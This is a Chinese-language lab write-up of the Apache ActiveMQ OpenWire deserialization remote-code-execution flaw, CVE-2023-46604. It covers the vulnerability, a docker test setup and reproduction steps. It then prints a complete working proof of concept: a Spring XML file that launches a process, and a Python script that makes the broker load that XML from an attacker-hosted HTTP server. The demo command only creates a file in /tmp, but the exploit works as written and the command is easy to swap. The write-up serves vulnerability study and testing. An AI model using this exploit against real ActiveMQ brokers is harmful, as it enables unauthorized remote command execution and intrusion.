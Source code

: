 # Apache ActiveMQ OpenWire 协议反序列化命令执行漏洞 CVE-2023-46604

## 漏洞描述

Apache ActiveMQ 是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务、集群、Spring Framework等。

OpenWire协议在ActiveMQ中被用于多语言客户端与服务端通信。在Apache ActiveMQ 5.18.2版本及以前，OpenWire协议通信过程中存在一处反序列化漏洞，该漏洞可以允许具有网络访问权限的远程攻击者通过操作 OpenWire 协议中的序列化类类型，导致代理的类路径上的任何类实例化，从而执行任意命令。

参考链接：

- [https://activemq.apache.org/news/cve-2023-46604](https://activemq.apache.org/news/cve-2023-46604)
- [https://xz.aliyun.com/t/12929](https://xz.aliyun.com/t/12929)
- [https://boogipop.com/2023/11/03/Apache%20ActiveMQ%20CVE-2023-46604%20RCE%20%E5%88%86%E6%9E%90/](https://boogipop.com/2023/11/03/Apache%20ActiveMQ%20CVE-2023-46604%20RCE%20%E5%88%86%E6%9E%90/)
- [https://forum.butian.net/share/2566](https://forum.butian.net/share/2566)

## 环境搭建

ActiveMQ运行后，默认监听如下两个端口：

|默认端口|默认条件|
|---|---|
|8161 web|需配置才可远程访问|
|61616 tcp|远程访问|

反序列化漏洞出现在61616端口中。

Vulhub 执行如下命令启动一个ActiveMQ 5.17.3版本服务器：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8161`检查服务是否运行成功。但实际上利用该漏洞，并不需要能够访问8161端口。

![](images/Apache%20ActiveMQ%20OpenWire%20协议反序列化命令执行漏洞%20CVE-2023-46604/image-20240104094726313.png)

## 漏洞复现

首先，启动一个HTTP反连服务器，其中包含[poc.xml](https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2023-46604/poc.xml)：

```shell
python3 -m http.server 6666
```

然后，执行[poc.py](https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2023-46604/poc.py)，传入的三个参数分别是目标服务器地址、端口，以及包含poc.xml的反连平台URL：

```shell
python3 poc.py your-ip 61616 http://your-server/poc.xml
```

等待执行，几分钟后执行完成。进入ActiveMQ容器：

```
docker exec cve-2023-46604-activemq-1 ls -l /tmp
```

可见，`touch /tmp/activeMQ-RCE-success`已经被成功执行：

![](images/Apache%20ActiveMQ%20OpenWire%20协议反序列化命令执行漏洞%20CVE-2023-46604/image-20240104102657021.png)

## 漏洞POC

[poc.xml](https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2023-46604/poc.xml)

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
       http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>touch</value>
                <value>/tmp/activeMQ-RCE-success</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

[poc.py](https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2023-46604/poc.py)

```python
import io
import socket
import sys


def main(ip, port, xml):
    classname = "org.springframework.context.support.ClassPathXmlApplicationContext"
    socket_obj = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    socket_obj.connect((ip, port))

    with socket_obj:
        out = socket_obj.makefile('wb')
        # out = io.BytesIO()  # 创建一个内存中的二进制流
        out.write(int(32).to_bytes(4, 'big'))
        out.write(bytes([31]))
        out.write(int(1).to_bytes(4, 'big'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(int(1).to_bytes(4, 'big'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(len(classname).to_bytes(2, 'big'))
        out.write(classname.encode('utf-8'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(len(xml).to_bytes(2, 'big'))
        out.write(xml.encode('utf-8'))
        # print(list(out.getvalue()))
        out.flush()
        out.close()


if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("Please specify the target and port and poc.xml: python3 poc.py 127.0.0.1 61616 "
              "http://192.168.0.101:8888/poc.xml")
        exit(-1)
    main(sys.argv[1], int(sys.argv[2]), sys.argv[3])
```
